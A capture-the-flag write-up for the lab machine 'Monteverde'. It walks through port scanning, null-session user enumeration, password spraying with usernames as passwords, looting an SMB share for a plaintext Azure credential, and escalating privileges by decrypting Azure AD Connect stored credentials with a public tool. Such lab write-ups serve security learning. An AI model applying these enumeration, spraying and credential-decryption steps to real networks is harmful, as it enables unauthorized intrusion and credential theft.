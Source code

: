 # Monteverde

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.228.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 03:03 EDT
Nmap scan report for 10.129.228.111
Host is up (0.0092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
```

### Username List --> User Creds

With `enum4linux` and null credentials, we can enumerate the possible users and the domain name:

```
$ enum4linux -u '' -p '' -a 10.129.228.111
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan                                 
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest

guest
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
AAD_987d7f2f57d2
Administrator
krbtgt
```

We can get a list of usernames here. I tried ASREP-Roasting, but nothing came of it. We can also check if any user has their password as their username with `cracpmapexec`, which returns something interesting:

```
$ crackmapexec smb 10.129.228.111 -u users -p users 2> /dev/null
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
<TRUNCATED>
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

Seems that we have access to one user. When we enumerate the shares, we can see that we have access to the `users` and `azure_uploads` files. The latter has nothing in it, but the `users` file has loads of files:

```
$ smbclient -U "SABatchJobs" //10.129.228.111/users$
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020
```

We can see that there's an `azure.xml` file here. It contains a user credential:

```markup
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I also noticed that this uses Azure to do stuff, so let's keep that in mind for now. Anyways, we can login via `evil-winrm` with `mhope` and this password.&#x20;

<figure><img src="../../../.gitbook/assets/image (19) (5) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Azure Admins + Azure Connect

When we view our groups within the domain, we see that `mhope` is part of the Azure Admins group:

```
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   5/5/2023 12:16:08 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

Within the `C:\Program Files` directory, there are also some files pertaining to Azure:

```
*Evil-WinRM* PS C:\Program Files> dir
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

I googled on how to exploit these services. After some trial and error, I stumbled on this:

{% embed url="https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/" %}

Since Azure AD Connect was present, it means that there's a database of which the credentials are being stored. As Azure Admins, we probably have access to these passwords, which can be enumerated and decrypted.

{% embed url="https://github.com/VbScrub/AdSyncDecrypt/releases" %}

We just need to transfer the `AdDecrypt.exe` file along with `mcrypt.dll` to the machine. Then, following the PoC, we need to run this within `C:\Program Files\Microsoft Azure AD Sync\Bin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (39) (9).png" alt=""><figcaption></figcaption></figure>

Then, using this password, we can login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (68) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
